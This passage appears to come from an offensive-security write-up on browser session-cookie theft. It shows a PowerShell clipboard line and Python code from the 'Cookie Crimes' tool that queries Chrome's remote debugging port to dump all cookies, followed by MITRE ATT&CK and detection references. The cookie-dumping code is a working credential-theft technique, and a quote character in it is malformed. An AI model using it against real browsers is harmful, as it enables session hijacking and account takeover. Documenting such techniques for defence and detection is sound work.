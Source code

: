 ```
Set-Clipboard -Value $allCookieCommands
```

### Python version (Cookie Crimes)

Here are the key lines of [Python code](https://github.com/defaultnamehere/cookie_crimes/blob/master/cookie_crimes.py) to grab the cookies:

```
ws_url="ws://localhost:9222/devtools/page/GRAB_FROM_JSON_ENDPOINT"
ws = websocket.create_connection(ws_url)
GET_ALL_COOKIES_REQUEST = json.dumps({"id": 1, "method": "Network.getAllCookies"})
ws.send(GET_ALL_COOKIES_REQUEST)
result = ws.recv()
ws.close()
response = json.loads(result)
cookies = response["result"]["cookies”]
```


## References

* [Steal Web Session Cookie](https://attack.mitre.org/techniques/T1539/)
* [Use Alternate Authentication Material: Web Session Cookie](https://attack.mitre.org/techniques/T1550/004/)
* [Cookie Crimes](https://github.com/defaultnamehere/cookie_crimes)
* [Detecting browser data theft using Windows Event Logs](https://security.googleblog.com/2024/04/detecting-browser-data-theft-using.html)
